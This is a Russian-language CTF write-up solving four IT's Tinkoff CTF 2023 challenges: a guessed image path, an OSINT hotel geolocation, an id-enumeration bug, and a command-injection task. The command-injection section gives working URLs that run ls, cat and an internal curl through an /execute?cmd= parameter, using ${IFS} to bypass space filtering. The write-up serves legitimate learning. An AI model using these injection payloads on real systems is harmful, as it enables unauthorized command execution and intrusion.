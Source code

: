 # IT's Tinkoff CTF 2023

### Web: Зов Аномалий
Описание:

![ScreenShot](screenshots/1.png)

Осматриваем сайт и находим карту "Зоны":

![ScreenShot](screenshots/2.png)

![ScreenShot](screenshots/3.png)

Выбираем один из артефактов на карте и открываем его в отдельном окне:

![ScreenShot](screenshots/4.png)

![ScreenShot](screenshots/5.png)

Получаем путь до картинки с артефактом:
```sh
https://its-artifacts-jk2dm72.spbctf.ru/wp-content/uploads/2023/07/kandinsky-download-1688481651933.png
```

Меняем название картинки на **flag.png**:

```sh
https://its-artifacts-jk2dm72.spbctf.ru/wp-content/uploads/2023/07/flag.png
```

![ScreenShot](screenshots/6.png)

**its{c0n6r47ul4710n5_y0u_f0und_7h3_m41n_4r71f4c7}**

---

### Web: Планетарная важность
Описание:

![ScreenShot](screenshots/7.png)

Перейдем по ссылке и увидим простой сайт, где из рабочих элементов есть "**Статус пограммы**", который возвращает "**[The system's broken]**":

![ScreenShot](screenshots/8.png)

![ScreenShot](screenshots/9.png)

Проверяем исходный код страницы и находим интересный элемент "**/execute?cmd=get-status**", проверяем, сможет ли он исполнить нашу команду **ls**:

![ScreenShot](screenshots/10.png)

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=ls
```

![ScreenShot](screenshots/11.png)

К сожалению обнаруживаем, что пробелы не обрабатываются в чистом виде:

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=ls%20-la
```

![ScreenShot](screenshots/12.png)

Находим способ передачи символа "пробел" через ${IFS}:

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=ls${IFS}-la
```

![ScreenShot](screenshots/13.png)

Обнаруживаем список файлов и читаем **README.md**

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=cat${IFS}README.md
```

![ScreenShot](screenshots/14.png)

```sh
	## Панель управления 
	### Старт приложения Для запуска приложения выполните 
	```bash curl http://management:5000/start/ ``` 

	### Обновления Для получения обновлений выполните 
	```bash curl http://management:5000/getUpdates/ ``` 

	### 	Перезагрузка Для перезагрузки приложения выполните 
	```bash curl http://management:5000/restart/ ```
```

Выполняем перезагрузку:

```sh
https://its-broken-cb23byi7.spbctf.ru/execute?cmd=curl${IFS}-s${IFS}http://management:5000/restart/
```

![ScreenShot](screenshots/15.png)

Сказано, двигаться в **/060648ac9456adba9740f7b2b119abf2bcf194c2/**. Двигаемся и находим флаг:

```sh
https://its-broken-cb23byi7.spbctf.ru/060648ac9456adba9740f7b2b119abf2bcf194c2/
```

![ScreenShot](screenshots/16.png)

**its{yoU_54VED_hUMaNi7Y_fRoM_a_M3t3Orite_FALL_w17h_RcE}**

---

### OSINT: Осьмак
Описание:

![ScreenShot](screenshots/17.png)

![ScreenShot](screenshots/18.png)

Перейдем по ссылке и увидим форму, в которую необходимо внести данные, для того, чтобы получить флаг:

![ScreenShot](screenshots/19.png)

![ScreenShot](screenshots/20.png)

Первым делом, пробуем **поиск по картинке**:

![ScreenShot](screenshots/21.png)

Находим что-то похожее на наше изображение. Проверим источник изображения:

![ScreenShot](screenshots/22.png)

Новый ориентир - **Roof Apart Hotel**:

Ищем отель на Google картах, используя данные из ресурсах-источника изображения:

![ScreenShot](screenshots/23.png)

На данном этапе понимаем, что это не тот отель, который нам нужен - обращаем внимание на угол обзора. Скорее всего, нам нужно ориентироваться на два здания, стоящих рядом:

![ScreenShot](screenshots/24.png)

Примерно проверяем еще раз угол обзора, используя вид сверху:

![ScreenShot](screenshots/25.png)

Находим другой отель - Holiday Inn Express:

![ScreenShot](screenshots/26.png)

Копируем его полный адрес:

![ScreenShot](screenshots/27.png)

Первые три пункта формы мы, предположительно, узнали, остается перебрать этажи:

![ScreenShot](screenshots/28.png)

**its{vZLOMSh1KI_ha5-B3EN_fOUND_AnD_neU7r4L1ZED}**

---

### Web: Принцесса в другом замке
Описание:

![ScreenShot](screenshots/29.png)

Переходим на сайт и наблюдаем простой аналог Тиндера. Естественно, лайкаем всех принцесс:

![ScreenShot](screenshots/30.png)

![ScreenShot](screenshots/31.png)

Нажав на кнопку "Купить премиум", нас предупреждают об ограничении покупки якобы в нашем регионе:

![ScreenShot](screenshots/32.png)

В исходном коде находим метод, который позволяет "обращаться напрямую к принцессе", используя id:

![ScreenShot](screenshots/33.png)

Пишем небоьшой скрипт для автоматизации применения параметра id:

![ScreenShot](screenshots/34.png)

Запускаем программу и в одном из ответов на наши запросы находим флаг (https://its-tinderella-w2wfm3xc.spbctf.ru/api/princess-sputnik?id=2):

![ScreenShot](screenshots/35.png)

**its{Its_a_mE_MarIO_FOUnd_a_vuln_and_FOUNd_My_loV3}**

---




